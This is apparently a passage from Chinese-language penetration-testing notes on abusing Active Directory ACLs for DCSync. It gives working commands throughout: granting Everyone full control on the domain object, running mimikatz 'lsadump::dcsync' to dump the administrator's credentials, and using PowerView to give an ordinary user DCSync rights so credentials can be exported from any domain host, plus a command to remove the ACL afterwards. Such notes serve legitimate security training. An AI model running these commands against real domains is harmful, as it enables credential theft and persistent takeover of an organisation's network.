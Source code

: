 	服务器管理器找到域->查看->启用高级功能->右键属性->安全->everyone完全控制
	>mimikatz.exe "lsadump::dcsync /domain:zone.com /user:administrator" exit
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/498.png)

	或使用powerview添加一条ACL(域控执行)
	>Add-DomainObjectAcl -TargetIdentity "DC=ZONE,DC=COM" -PrincipalIdentity 域内用户 -Rights DCSync -Verbose 
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/499.png)

	使用此账户在域内任意主机可使用mimikatz的dcsync功能导出凭据
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/500.png)

	移除ACL
	>Remove-DomainObjectAcl -TargetIdentity "DC=zone,DC=com" -PrincipalIdentity 用户 -Rights DCSync -Verbose